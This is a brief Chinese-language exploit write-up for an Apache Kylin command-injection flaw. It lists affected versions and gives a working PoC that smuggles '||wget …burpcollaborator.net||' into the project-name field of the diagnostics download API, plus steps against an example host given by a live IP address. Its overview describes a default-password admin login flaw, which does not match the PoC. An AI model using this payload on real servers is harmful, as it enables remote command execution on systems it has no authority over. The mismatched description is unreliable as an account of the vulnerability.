 ## 漏洞概述

黑客可以利用这个漏洞，登录任何管理员账号和密码默认未修改的账号，获得管理员权限。

## 影响范围

```http
Apache Kylin 2.3.0 ~ 2.3.2
Apache Kylin 2.4.0 ~ 2.4.1
Apache Kylin 2.5.0 ~ 2.5.2
Apache Kylin 2.6.0 ~ 2.6.5
Apache Kylin 3.0.0 ~ 3.0.2
```

## POC

```http
原始请求：
http://host:port/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

将项目名称“learn_kylin”替换为如下payload访问即可：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
```

## EXP

1、访问 System-Configuration-Diagnosis。触发下载诊断信息的请求 [http://host:port/kylin/api/diag/project/learn_kylin/download](http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download)

2、发送上方POC
